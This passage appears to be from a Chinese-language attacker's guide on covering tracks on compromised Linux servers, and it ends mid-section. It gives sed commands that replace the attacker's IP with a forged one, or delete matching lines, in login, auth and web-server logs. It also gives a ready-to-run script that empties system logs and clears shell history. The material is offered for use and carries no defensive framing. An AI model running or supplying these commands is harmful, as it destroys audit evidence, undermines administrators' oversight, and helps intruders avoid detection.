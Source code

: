 日志文件全部被清空，太容易被管理员察觉了，如果只是删除或替换部分关键日志信息，那么就可以完美隐藏攻击痕迹。

替换：

```bash
# 192.168.100.101为攻击者IP，10.0.0.55为伪造IP，-i编辑文件
sed 's/192.168.100.101/10.0.0.55/g' -i /var/log/btmp*
sed 's/192.168.100.101/10.0.0.55/g' -i /var/log/lastlog
sed 's/192.168.100.101/10.0.0.55/g' -i /var/log/wtmp
sed 's/192.168.100.101/10.0.0.55/g' -i secure
sed 's/192.168.100.101/10.0.0.55/g' -i /var/log/utmp
```

删除：

```bash
# 删除所有匹配到字符串的行,比如以当天日期或者自己的登录ip
sed  -i '/自己的ip/'d  /var/log/messages
sed  -i '/当天日期/'d  filename
```

### 一键清除history和系统日志脚本

```bash
#!/usr/bin/bash
echo > /var/log/syslog
echo > /var/log/messages
echo > /var/log/httpd/access_log
echo > /var/log/httpd/error_log
echo > /var/log/xferlog
echo > /var/log/secure
echo > /var/log/auth.log
echo > /var/log/user.log
echo > /var/log/wtmp
echo > /var/log/lastlog
echo > /var/log/btmp
echo > /var/run/utmp
rm ~/./bash_history
history -c
```

### 清除web日志痕迹

web日志同样可以使用sed进行伪造，例如apache日志、MySQL日志、php日志

```lua
sed 's/192.168.100.101/10.0.0.55/g' –i /var/log/apache/access.log
sed 's/192.168.100.101/10.0.0.55/g' –i /var/log/apache/error_log

sed 's/192.168.100.101/10.0.0.55/g' –i /var/log/mysql/mysql_error.log
sed 's/192.168.100.101/10.0.0.55/g' –i /var/log/mysql/mysql_slow.log

sed 's/192.168.100.101/192.168.1.4/g' –i /var/log/apache/php_error.log
```

清除部分相关日志：
